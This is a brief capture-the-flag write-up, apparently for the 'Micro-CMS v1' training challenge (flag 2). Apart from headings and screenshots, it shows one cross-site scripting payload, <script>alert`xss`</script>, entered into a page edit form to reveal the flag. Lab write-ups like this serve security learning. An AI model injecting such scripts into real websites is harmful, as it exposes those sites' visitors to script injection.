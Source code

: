 # Micro-CMS v1 - FLAG2

## 0x00 Index

![](../flag0/imgs/index.jpg)

## 0x01 Page 1

![](../flag0/imgs/1.jpg)

## 0x02 Edit Page 1

```javascript
<script>alert`xss`</script>
```

![](./imgs/edit.jpg)

Save and nothing happened.

![](./imgs/edited.jpg)

## 0x03 FLAG

Go back to home and get the FLAG

![](./imgs/flag.jpg)